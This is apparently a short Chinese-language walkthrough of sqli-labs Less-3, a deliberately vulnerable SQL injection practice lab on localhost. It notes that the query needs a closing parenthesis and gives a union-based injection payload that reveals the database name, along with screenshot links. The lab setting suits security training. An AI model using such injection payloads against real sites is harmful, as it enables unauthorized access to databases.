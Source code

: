 less3报错提示有括号（）需要闭合

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/199E74A6B00D4AFDB9475CB58CECE05Aclipboard.png)

构造payload:

http://127.0.0.1/sql-labs/Less-3/?id=-1') union select 1,database(),3--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/15C43AD66F3946C4945D05BD6F63204Cclipboard.png)



源代码：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/14CA309A6D1146C69906A0B412DB17C3clipboard.png)

